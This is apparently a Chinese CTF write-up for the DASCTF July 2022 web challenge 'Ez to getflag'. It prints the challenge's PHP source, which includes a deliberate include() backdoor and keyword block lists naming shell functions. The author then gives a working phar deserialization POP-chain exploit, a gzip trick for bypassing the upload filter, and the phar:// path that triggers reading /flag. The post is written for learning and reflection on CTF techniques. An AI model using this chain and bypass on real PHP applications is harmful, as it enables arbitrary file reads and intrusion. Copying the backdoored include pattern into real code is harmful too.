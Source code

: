 ```yaml
---
title: DASCTF 2022 7月附能赛 writeup
date: 2022-07-24 18:34:00
updated: 2022-07-24 18:34:00
tags: [ctf,security]
---
```

目前水平确实不足，下午看了几个小时的题目只出了一道web签到题，感觉这DAS的比赛纯粹为了CTF而出题，就像Ez to getflag这个题目，作为一个用户来说上传了一个1.png然后输入1.png查询查不到的话，这应该很难认为是个能用的web服务，纯ctf技巧题吧，比赛时候也做了非常久。

## Ez to getflag

一个文件上传的简单功能，总共俩接口 一个上传一个查询。
在接口/upload.php 的响应头中发现PHP/7.4.11。
查询接口有WAF 不能用`..`，但是可以读取源码。

源码
upload.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $upload = new Upload();
    $upload->uploadfile();
?>
```

file.php

```php
<?php
    error_reporting(0);
    session_start();
    require_once('class.php');
    $filename = $_GET['f'];
    $show = new Show($filename);
    $show->show();
?>
```

class.php

```php
<?php
    class Upload {
        public $f;
        public $fname;
        public $fsize;
        function __construct(){
            $this->f = $_FILES;
        }
        function savefile() {  
            $fname = md5($this->f["file"]["name"]).".png";
            if(file_exists('./upload/'.$fname)) {
                @unlink('./upload/'.$fname);
            }
            move_uploaded_file($this->f["file"]["tmp_name"],"upload/" . $fname);
            echo "upload success! :D";
        }
        function __toString(){
            $cont = $this->fname;
            $size = $this->fsize;
            echo $cont->$size;
            return 'this_is_upload';
        }
        function uploadfile() {
            if($this->file_check()) {
                $this->savefile();
            }
        }
        function file_check() {
            $allowed_types = array("png");
            $temp = explode(".",$this->f["file"]["name"]);
            $extension = end($temp);
            if(empty($extension)) {
                echo "what are you uploaded? :0";
                return false;
            }
            else{
                if(in_array($extension,$allowed_types)) {
                    $filter = '/<\?php|php|exec|passthru|popen|proc_open|shell_exec|system|phpinfo|assert|chroot|getcwd|scandir|delete|rmdir|rename|chgrp|chmod|chown|copy|mkdir|file|file_get_contents|fputs|fwrite|dir/i';
                    $f = file_get_contents($this->f["file"]["tmp_name"]);
                    if(preg_match_all($filter,$f)){
                        echo 'what are you doing!! :C';
                        return false;
                    }
                    return true;
                }
                else {
                    echo 'png onlyyy! XP';
                    return false;
                }
            }
        }
    }
    class Show{
        public $source;
        public function __construct($fname)
        {
            $this->source = $fname;
        }
        public function show()
        {
            if(preg_match('/http|https|file:|php:|gopher|dict|\.\./i',$this->source)) {
                die('illegal fname :P');
            } else {
                echo file_get_contents($this->source);
                $src = "data:jpg;base64,".base64_encode(file_get_contents($this->source));
                echo "<img src={$src} />";
            }

        }
        function __get($name)
        {
            $this->ok($name);
        }
public function__call($name, $arguments)
        {
            if(end($arguments)=='phpinfo'){
                phpinfo();
            }else{
                $this->backdoor(end($arguments));
            }
            return $name;
        }
        public function backdoor($door){
            include($door);
            echo "hacked!!";
        }
        public function __wakeup()
        {
            if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
                die("illegal fname XD");
            }
        }
    }
    class Test{
        public $str;
public function__construct(){
            $this->str="It's works";
        }
        public function __destruct()
        {
            echo $this->str;
        }
    }
?>
```

由于show方法中file_get_contents()函数参数可控，我们可以通过phar伪协议来读取我们上传的phar格式的文件。这里我们通过构造POP链，通过反序列化控制`include($door)`中的参数，从而通过`include`函数包含`/flag`文件，来读取flag。

EXP:

```php
<?php include('class.php');


$t = new Test();
$t->str = new Upload();
$t->str->fname = new Show('1.png');
$t->str->fsize = '/flag';
// $poc = serialize($t);

$phar = new Phar('poc.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$phar->setMetadata($t);
$phar->stopBuffering();

// print($poc);
```

生成poc.phar文件

```bash
gzip poc.phar
```

使用gzip压缩来绕过对文件内容的检测，得到poc.phar.gz,改名为poc.png。

由于是采用文件名的md5值的方式，读取phar://./upload/ba48d64c6886e802cd5f65e99e8566ee.png即可。
![图 1](https://s2.loli.net/2022/07/24/k6PNqflvVX4xmSz.png)  

一些值得反思的地方：
1.为什么要用phar伪协议？因为题目不管你上传什么，都会给你的命名为md5.png,这样的话你虽然可以想办法传一个内容是png的php文件，比如说用`test.php%00.png`来绕过，这完全可以，但是却没办法当成php文件去执行。所以我们只能选择上传一个phar内容的文件，因为phar格式的文件即便是后缀被修改了，使用phar://这个伪协议读取，还是会按照phar的内容来解析的，甚至是用gzip压缩phar文件，修改后缀上传，也会自动解压一层并且按照phar内容来解析。

2.有没有办法实现RCE？这里只做到了任意文件读取，读取到了flag,有没有可能控制include的函数的参数为data伪协议或者file伪协议，来让include函数包含远程文件，从而实现RCE呢？题目中如果$door接收到参数为phpinfo，那么就会直接执行phpinfo()；借此我们可以查看环境变量中`allow_url_fopen = on` 和 `allow_url_include = off`，前者用于file_get_content，而后者用于`include`,因此我们没有办法通过控制include函数的参数来包含远程的文件。

复盘题目的过程中，在phpinfo中甚至可以找到从环境变量里面读进来的flag？？就离谱
![图 2](https://s2.loli.net/2022/07/24/uXbpDEMWyP7UhvC.png)  

??????不会出题建议是别出
![图 3](https://s2.loli.net/2022/07/24/VudLM3Oqe4DiHFt.png)  
